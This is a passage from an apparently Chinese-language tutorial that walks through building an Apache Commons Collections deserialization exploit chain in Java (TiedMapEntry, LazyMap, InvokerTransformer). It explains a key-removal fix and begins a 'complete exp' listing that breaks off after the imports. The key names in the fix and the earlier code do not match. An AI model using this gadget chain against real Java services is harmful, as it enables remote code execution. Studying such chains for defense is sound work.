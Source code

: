 ```plain
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()
        serialize(m2);
        //序列化过程结束

        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);

    }
```

但是这样还是执行不成功

来看下一步原因，问题出现再LazyMap类下的get方法

[![](assets/1700127979-d08bc04bc4b65f22c5e278c6243e0b8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155132-f55c9d1a-8454-1.png)

当序列化的时候，我们是可以过if的，但是下面的红框中，又调用了一边put方法，这样就把我们的这个key写入到了map里面，当我们反序列化的时候，同样的过程同样的key，又要在序列化的时候put将这个key写入了map，所以map.containsKey(key)就为ture了，就过不了if了

解决这个问题的方法很简单，删了这个key不久完了吗

```plain
LazyMap.remove("lky");
```

我们在要序列化过程走完之后删除这个参数就行了

### 完整exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
```